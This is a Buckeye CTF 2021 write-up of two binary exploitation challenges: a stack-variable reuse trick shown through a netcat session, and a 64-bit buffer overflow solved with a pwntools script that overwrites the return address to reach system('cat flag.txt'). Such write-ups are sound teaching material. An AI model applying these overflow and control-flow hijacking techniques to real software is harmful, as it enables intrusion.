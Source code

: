 ```yaml
---
layout: article
title:  "Buckeye CTF'21 writeup"
date:   2021-10-25 01:30:53 +0  530
tags:
  - writeup
  - buckeyectf
---
```


# pwn

---

## staff

This is an easy challenge but requires careful observation and code analysis to solve.

challenge [files](https://github.com/cscosu/buckeyectf-2021/tree/master/pwn/staff/deploy)

if you observe, `instuctor` string is printed at the end of the both functions, but is unreachable in one of the functions

```c
// find_instructor()
printf("Professor %s will teach %s, but we'll probably change our minds the week before classes start.\n", instructor, course);

// find_course()
printf("This course will be taught by: %s\n", instructor);
```

if you check in `gdb` ,

`$rbp = 0x7fffffffd120` for both `find_course` and `find_instructor` functions. 

Also, 

- for find_course, `instuctor` is at address `rbp - 0x30` and `course` at `rbp - 0x50`
- for find_instructor,  `instuctor` is at address `rbp - 0x50` and `course` at `rbp - 0x30`

so their addresses are interchanged

Normally we would just like to pass `FLAG 1337` to `find_course` function and get the flag, but the print statement is unreachable, but even so the flag is loaded in the instructor at `rbp - 0x30` (instructor) in `find_course` function. so now when we now call the `find_instructor` function, `course` variable will have the flag. So we want to print this variable without overwriting it, this can be done by entering `Staff` and we will get the flag.

```clojure
❯ nc pwn.chall.pwnoh.io 13383
What would you like to do?
1. Search for a course
2. Search for an instructor
> 1
What course would you like to look up?
> FLAG 1337
This course will be taught by: Staff
What would you like to do?
1. Search for a course
2. Search for an instructor
> 2
What instructor would you like to look up?
> Staff
There were 6 results, please be more specific in your search.
Professor Staff will teach buckeye{if_0n1y_th15_w0rk3d}, but we'll probably change our minds the week before classes start.
```

---

## ret4win

This is the first time I encountered a rop pwn challenge (yes I'm new to pwn) and it turned out to be 64bit, XD.

challenge [file](https://github.com/cscosu/buckeyectf-2021/tree/master/pwn/staff/deploy)

Our aim is to execute `system("cat flag.txt")`

For this the obvious choice that the challenge presents is , make the system jump to `win` function while passing the correct 6 arguments. Passing 6 arguments is impossible here.

We can read `56` bytes : `read(0, buf, 32 + 8 + 16);`

By passing a pattern ( `cyclic 56`) , and using `gdb` we can determine the offset for `RIP` register, which here is `40` bytes.  ( so only 16 bytes left to pass arguments and return address for `win` function which it makes it impossible to pass all).

So the next choice would be to return to `system` call and before that pass `"cat flag.txt"` as argument into `RDI` (in 64 bit arch, the first six parameters are passed in registers RDI, RSI, RDX, RCX, R8, and R9. 
But I couldn't find any gadget (`pop rdi ; ret ;`) to pass the argument into RDI, so I started looking for another method to pass `"cat flag.txt"` into RDI.

```clojure
// in win() function
0x0000000000401245 <+101>:	mov    rdi,rax
0x0000000000401248 <+104>:	call   0x401030 <system@plt>
```

The instruction just before system call in `win` is `mov rdi rax` so if moved the argument into rax and then returned to this instruction it will move it to rdi and then execute the system command.

If you follow the `win` function, you will observe that after returning from this function, `rax` is holding the "cat flag.txt" address.

So we can return to `win` which will move the argument into `rax` and then call the mov instruction.

So here we will use 40 + 8 + 8 bytes, just inside the input size of read().

```python
from pwn import *

target = remote('pwn.chall.pwnoh.io',13379)

payload = b'A'*40					          # 40 bytes offset
payload += p64(0x00000000004011e0)  # address of win() overwriting RIP
payload += p64(0x0000000000401245)  # address of mov rdi, rax

print(target.recvline())
target.sendline(payload)
print(target.recvall())

```